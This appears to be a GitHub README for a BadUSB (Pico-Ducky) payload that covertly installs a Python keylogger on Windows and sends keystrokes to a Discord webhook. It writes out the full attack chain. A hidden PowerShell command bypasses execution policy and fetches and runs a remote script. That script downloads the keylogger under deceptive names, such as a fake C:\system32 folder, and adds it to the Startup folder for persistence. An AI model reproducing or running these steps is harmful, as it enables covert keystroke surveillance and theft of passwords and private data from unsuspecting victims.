 THIS IS ONLY MADE FOR EDUCATIONAL PURPOSES


# What it Does:

This payload executes a powershell command that downloads a python keylogger and runs it. This keylogger sends the keys pressed over discord using a webhook.

# Dependencies:

- Windows
- Python
- User is admin

# How to use:

## Pico-Ducky

If you have a [pico-ducky](https://github.com/dbisu/pico-ducky) which is what this payload was originally built for you just download the keylog-starter.dd and place it in the root of your pico directory. If you have a pico-ducky without wifi you need to rename it to ``payload.dd`` ``payload2.dd`` ``payload3.dd`` or ``payload4.dd`` read more here [here](https://github.com/dbisu/pico-ducky).

## P4wnP1 A.L.O.A

I am working on a version for HID script

## Any other ducky script compatible tools

I havent tested any others but if you do please open up an issue and tell me how it went

# How it Works:

## The rubber ducky script
When the grabber.dd runs it opens a run dialoge with admin privileges and enters this script.

```powershell
powershell -W h -NonI -NoP -Ep bypass -c "$dc = '<your discord webhook here>'; irm https://shorturl.at/blGV | iex"
```
This line opens a hidden windows with ``-W h`` a non interactive windows with ``-NonI`` no user profiles with ``NoP`` and bypasses the anti script execution policy using ``-Ep bypass``
Then it sets the ``$dc`` variable to your webhook.
And last but not least it downloads the ekylog-activator.ps1 script and executes it. The download link is shortened to fit inside the run dialoge. (I want to host my own site in the future where i can have my own directly short links)

(copied from the [chrome password stealer](https://github.com/simen64/Pico-HID-Scripts/tree/main/chrome-password-stealerw) README thats made by me)

## The activator script

I used to have the bad usb enter all of these commands that sets the keylogger up, but i realised i can just paste it into a powershell script and shorten down the time that the usb needs to be plugged in drasticly. This is why the powershell script isnt really structured in a normal way, and i am to lazy to actually structure it because powershell scripting sucks. But if anyone wants to do it create a pull request.

### Commands ran by the ps script:

1. We make a directory called ``system32`` in the C: drive using mkdir ``C:\system32\``. I decided to call it ``system32`` as many people would not want to delete the a folder named system32.
2. Next we enter the directory using ``cd C:\system32\``
3. Then we run `iwr -Uri https://raw.githubusercontent.com/simen64/Pico-HID-Scripts/main/discord-keylogger/logger.py -OutFile C:\system32\sys-file.py` to download the keylogger and spit it out as sys-file.py (again to trick the user to not deleting the file)
4. After we have the logger we install the needed libraries ``py -m pip install discordwebhook pynput``
5. Then we create a file called startup.bat to run the keylogger on startup ``'@echo off', 'start /B pythonw.exe "C:\system32\sys-file.py"' | Set-Content -Path 'C:\system32\startup.bat'``
6. To make it run at startup we need to copy it to the startup folder using this command ``cp 'C:\system32\startup.bat' '$Env:USERPROFILE\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup'`` this is why we need the user to be admin so we can access the startup folder
7. Last but now least we use this command ``Python sys-file.py <your discord webhook here>"`` to run the keylogger the webhook is being ported as an anrgument and will later saved in a file on the victims computer.
